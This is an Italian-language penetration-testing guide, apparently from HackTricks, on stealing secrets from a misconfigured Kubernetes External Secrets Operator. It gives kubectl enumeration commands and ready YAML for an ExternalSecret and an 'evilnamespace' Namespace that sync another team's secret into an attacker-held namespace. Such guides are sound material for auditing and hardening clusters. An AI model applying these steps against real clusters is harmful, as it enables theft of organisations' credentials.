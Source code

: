 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**L'autore originale di questa pagina è** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Questa pagina fornisce alcuni suggerimenti su come puoi rubare segreti da un ESO mal configurato o da un'applicazione che utilizza ESO per sincronizzare i suoi segreti.

## Disclaimer

La tecnica mostrata di seguito può funzionare solo quando sono soddisfatte determinate circostanze. Ad esempio, dipende dai requisiti necessari per consentire a un segreto di essere sincronizzato in uno spazio dei nomi che possiedi / compromesso. Devi scoprirlo da solo.

## Prerequisites

1. Un accesso a un cluster kubernetes / openshift con privilegi di amministratore su uno spazio dei nomi
2. Accesso in lettura su almeno ExternalSecret a livello di cluster
3. Scoprire se ci sono etichette / annotazioni o appartenenza a gruppi richieste che consentono a ESO di sincronizzare il tuo segreto. Se sei fortunato, puoi rubare liberamente qualsiasi segreto definito.

### Gathering information about existing ClusterSecretStore

Assumendo che tu abbia un utente con diritti sufficienti per leggere questa risorsa; inizia elencando prima i _**ClusterSecretStores**_ esistenti.
```sh
kubectl get ClusterSecretStore
```
### Enumerazione di ExternalSecret

Supponiamo che tu abbia trovato un ClusterSecretStore chiamato _**mystore**_. Continua enumerando il suo externalsecret associato.
```sh
kubectl get externalsecret -A | grep mystore
```
_Questa risorsa è limitata a uno specifico namespace, quindi a meno che tu non sappia già in quale namespace cercare, aggiungi l'opzione -A per cercare in tutti i namespace._

Dovresti ottenere un elenco di externalsecret definiti. Supponiamo che tu abbia trovato un oggetto externalsecret chiamato _**mysecret**_ definito e utilizzato dal namespace _**mynamespace**_. Raccogli un po' più di informazioni su che tipo di segreto contiene.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assemblare i pezzi

Da qui puoi ottenere il nome di uno o più nomi segreti (come definito nella risorsa Secret). Otterrai un output simile a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Fino ad ora abbiamo:

- Nome di un ClusterSecretStore
- Nome di un ExternalSecret
- Nome del segreto

Ora che abbiamo tutto il necessario, puoi creare un ExternalSecret (e eventualmente patchare/creare un nuovo Namespace per soddisfare i requisiti necessari per sincronizzare il tuo nuovo segreto):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Dopo alcuni minuti, se le condizioni di sincronizzazione sono state soddisfatte, dovresti essere in grado di visualizzare il segreto leakato all'interno del tuo namespace.
```sh
kubectl get secret leaked_secret -o yaml
```
## Riferimenti

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
